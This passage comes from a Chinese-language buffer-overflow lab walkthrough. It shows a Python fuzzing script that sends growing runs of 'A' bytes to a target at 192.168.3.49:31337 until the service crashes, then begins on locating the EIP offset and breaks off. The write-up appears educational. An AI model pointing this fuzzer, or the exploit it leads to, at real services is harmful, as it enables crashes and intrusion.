 在kali准备以下FUZZY脚本：
```
#!/usr/bin/python
import sys, socket

ip = '192.168.3.49'
port = 31337
buffer = ['A']
counter = 100

while len(buffer) <= 10:
    buffer.append('A'*counter)
    counter = counter + 100

try:
    for string in buffer:
        print '[+] Sending %s bytes...' % len(string)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        s.send("User" '\r\n')
        s.recv(1024)
        s.send(string + '\r\n')
        print '[+] Done'
except:
    print '[!] A connection can\'t be stablished to the program. It may have crashed.'
    sys.exit(0)
finally:
    s.close()

```

运行fuzzy.py，在发送300个字节时，靶机程序奔溃。
![alt 属性文本](https://github.com/maxzxc0110/hack-study/blob/main/img/fuzz.png "fuzz")

## 计算EIP位置
此时我们生成一段不重复字节，长度比Fuzzing出来令到靶机程序崩溃的字节数略长一点，我们在这里选择400个字节，执行
